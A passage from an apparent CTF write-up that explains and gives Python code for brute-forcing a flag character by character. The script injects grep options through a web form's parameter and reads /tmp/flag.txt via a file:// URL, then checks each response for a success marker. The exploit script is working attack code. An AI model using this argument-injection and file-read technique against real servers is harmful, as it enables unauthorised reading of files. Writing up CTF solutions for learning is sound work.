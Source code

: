 ```{% raw %}
We can do this by guessing each character from front to back. We know the flag starts with `flag{` and can check for that. We'll ask, does it start with `flag{a`? or `flag{b`? or `flag{c`? and so on... Once the first letter is found (we'll look for a 'Yaaaaaassssss' in the response to determine this), repeat the same for the next character, and so on.

Some quick and dirty Python I used when the challenge was still hosted online for the AppSec USA CTF (URL removed),

```{% raw %}
import socket, urllib

HOST = "<url removed>"
PORT = 80
REQU = """GET /index.php?url=file%3A%2F%2F%2Ftmp%2Fflag.txt&string={}&submit=Scan HTTP/1.1
Host: <url removed>
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:52.0) Gecko/20100101 Firefox/52.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Referer: <url removed>
Connection: close\r\n\r\n"""
ALPH = "abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ1234567890"

def corn9(guess):
	s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
	s.connect((HOST, PORT))

	x = "-e '^flag{%s'" % (guess)
	s.send(REQU.format(urllib.quote_plus(x)))
	r = s.recv(8192)
	s.close()
	
	if "Yaaaaaassssss" in r:
		return True
	return False

p = ''
for i in xrange(64):
	f = False
	for c in ALPH:
		print p, c
		if corn9(p + c):
			f = True
			p = p + c
			break
	if not f:
		break

print "DONE"
print p
{% endraw %}```

Here it is running, fun to watch it go once things are working.

<https://www.youtube.com/watch?v=b186X-as8tM>

<iframe width="560" height="315" src="https://www.youtube.com/embed/b186X-as8tM" frameborder="0" allow="accelerometer; autoplay; encrypted-media; gyroscope; picture-in-picture" allowfullscreen></iframe>
